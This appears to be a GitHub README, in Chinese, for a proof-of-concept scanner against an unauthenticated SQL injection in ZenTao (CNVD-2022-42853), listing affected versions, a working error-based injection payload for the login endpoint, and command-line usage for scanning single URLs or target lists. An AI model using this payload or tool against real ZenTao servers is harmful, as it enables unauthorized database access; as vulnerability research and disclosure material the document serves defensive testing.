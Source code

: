 # zentao_sqli_poc

author: colind0pe

项目地址: https://github.com/colind0pe/zentao_sqli_poc

## 0x01 声明

- **仅限用于安全研究人员在授权的情况下使用，请遵守网络安全法，如您需要测试本工具的可用性，请自行搭建靶机环境。**

- **严禁未经授权的渗透测试行为，在使用本工具过程中存在的任何非法行为，您需自行承担法律责任。**

## 0x02 漏洞介绍

漏洞名称：禅道未授权SQL注入漏洞

漏洞编号：CNVD-2022-42853

影响范围：

* 禅道企业版 6.5

* 禅道旗舰版 3.0 8

* 禅道开源版 16.5

* 禅道开源版 16.5.beta1

## 0x03 漏洞复现

payload：

``` 
url: /zentao/user-login.html

POST: account=admin'+and+(select+extractvalue(1,concat(0x7e,(MD5(49)),0x7e)))# 
```

## 0x04 使用方法

```
usage: zentao_sqli_poc.py.py [-h] [-u URL] [-f FILE]

示例: python3 zentao_sqli_poc.py -u http://127.0.0.1/

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -f FILE, --file FILE  Targets File Path
```

## 0x05 Screenshots

![Screenshots](https://github.com/colind0pe/zentao_sqli_poc/blob/master/Screenshots.png?raw=true)

